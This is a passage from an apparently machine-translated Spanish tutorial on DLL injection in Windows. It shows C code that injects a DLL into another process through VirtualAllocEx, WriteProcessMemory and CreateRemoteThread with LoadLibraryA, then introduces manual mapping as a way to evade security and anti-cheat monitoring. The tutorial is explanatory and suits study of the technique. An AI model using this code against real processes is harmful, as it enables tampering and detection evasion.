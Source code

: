 ```c
    // Next, we need to allocate memory in the target process for the DLL path
    LPVOID dllPathAddressInRemoteMemory = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (dllPathAddressInRemoteMemory == NULL) {
        printf("Failed to allocate memory in target process\n");
        return -1;
    }

    // Write the DLL path to the allocated memory in the target process
    BOOL succeededWriting = WriteProcessMemory(hProcess, dllPathAddressInRemoteMemory, dllPath, strlen(dllPath), NULL);
    if (!succeededWriting) {
        printf("Failed to write DLL path to target process\n");
        return -1;
    }

    // Get the address of LoadLibrary in kernel32.dll
    LPVOID loadLibraryAddress = (LPVOID)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    if (loadLibraryAddress == NULL) {
        printf("Failed to get address of LoadLibraryA\n");
        return -1;
    }

    // Create a remote thread in the target process that starts at LoadLibrary and points to the DLL path
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)loadLibraryAddress, dllPathAddressInRemoteMemory, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread in target process\n");
        return -1;
    }

    printf("Successfully injected example.dll into target process\n");

    return 0;
}
```

El segundo ejemplo ilustra el uso de`LoadLibrary`para inyección DLL. Este proceso implica asignar la memoria dentro del proceso de destino para la ruta DLL y luego iniciar un hilo remoto que comienza en`LoadLibrary`y dirige hacia la ruta DLL.

## Mapeo manual

`Manual Mapping`es un método increíblemente complejo y avanzado de inyección de DLL. Implica la carga manual de una DLL en la memoria de un proceso y resuelve sus importaciones y reubicaciones. Sin embargo, evita una detección fácil al no usar el`LoadLibrary`Función, cuyo uso es monitoreado por los sistemas de seguridad y anti-trato.

Un esquema simplificado del proceso se puede representar de la siguiente manera:

